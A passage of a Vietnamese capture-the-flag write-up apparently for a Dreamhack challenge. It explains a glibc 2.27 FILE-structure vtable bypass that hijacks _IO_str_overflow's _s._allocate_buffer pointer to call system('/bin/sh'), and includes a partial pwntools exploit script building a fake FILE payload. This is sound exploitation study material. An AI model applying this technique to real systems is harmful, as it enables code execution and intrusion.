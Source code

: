 ```c
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

- ta sẽ tìm hiểu chi tiết và khai thác nó


```cs
new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

- _io_str_overflow() ở cuối hàm gọi và thực thi ```_s._allocate_buffer``` , vậy nếu ta thay thế nó thành system thì sao? ta hoàn toàn thể khai thác thành công , trước hết cần biết đối số truyền vào hàm này 

```cs
#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
size_t old_blen = _IO_blen (fp);
_IO_size_t new_size = 2 * old_blen + 100;
if (new_size < old_blen)
   return EOF;
```

- ta có thể control được new_size ở trên nếu ta control được ```(fp)->_IO_buf_end - (fp)->_IO_buf_base```

- Nói cách khác, nếu bạn có thể điều khiển ```_S._ALLOCATE_BUFFER, _IO_BUF_END, _IO_BUF_BASE,``` bạn có thể chạy lệnh mong muốn.
- ở đây ta cũng cần bỏ qua các điều kiện khác :

Biến flush_only sử dụng trong câu lệnh if có giá trị mặc định là 0, và nếu tóm tắt câu lệnh if thì pos >= _IO_blen(fp). Do đó, nếu khởi tạo _IO_write_base là 0, thì _IO_write_ptr sẽ trở thành pos và có thể dễ dàng vượt qua câu lệnh so sánh để gọi con trỏ hàm.


- ta sẽ setup như sau: 

```cs
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bypass_valid_vtable_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

p = process()
#p = remote('host1.dreamhack.games', 14463)

p.recvuntil(b'stdout: ')
libc.address = int(p.recvline()[:-1],16) - libc.sym._IO_2_1_stdout_
io_files_jump = libc.sym._IO_file_jumps
io_str_overflow = io_files_jump + 0xd8

log.info(f'libc: {hex(libc.address)}')

fake_vtable = io_str_overflow - 16
binsh = next(libc.search(b'/bin/sh\x00'))
fp = exe.sym.fp

pl = p64(0)*5 # flags , _io_read_ptr , _io_read_end , _io_read_base , _io_write_base
pl += p64((int((binsh - 100)/2))) # _IO_write_ptr
pl += p64(0)*2 # _io_write_end , _io_buf_base
pl += p64((int((binsh-100)/2))) # _io_buf_end
pl += p64(0)*8 # save_base , backup_base , save_end , marker , chain , fileno , odd_offset
pl += p64(fp+0x80)  #lock
```